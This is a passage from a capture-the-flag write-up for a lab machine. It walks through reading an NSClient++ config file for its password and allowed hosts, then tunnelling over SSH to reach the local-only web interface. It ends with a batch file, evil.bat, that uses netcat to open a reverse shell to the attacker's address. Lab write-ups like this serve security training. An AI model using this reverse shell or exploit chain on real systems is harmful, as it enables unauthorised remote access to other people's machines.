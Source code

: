 ```powershell
> type "\Program Files\NSClient++\nsclient.ini"
```

Additionally, we'll note that the only authorized host is `127.0.0.1` or localhost. 

```
; Undocumented key
password = ew2x6SsGTxjRwXOT

; Undocumented key
allowed hosts = 127.0.0.1
```

To bypass this restriction, let's make a tunnel using SSH and forward the port. [Linuxize](https://linuxize.com/post/how-to-setup-ssh-tunneling/) provides a great write-up on this topic. Reconnecting with the following command should allow us to login in successfully.

```bash
$ ssh -L 8443:127.0.0.1:8443 nadine@10.10.10.184
```

Next, we'll navigate to `https://127.0.0.1:8443/` and attempt to login. Success!

![](/assets/img/posts/htb/04-2020/nsclient-main.png)

Unfortunately, the web application was too buggy and difficult to use without frustration, so I dug into the [documentation](https://docs.nsclient.org/api/rest/) for NSClient and decided to use `curl` commands to complete the exploit. 

The next step of the exploit requires a simple batch file for a reverse shell. Let's name it `evil.bat`.

```bat
@echo off
c:\temp\nc.exe 10.10.14.2 4444 -e cmd.exe
```
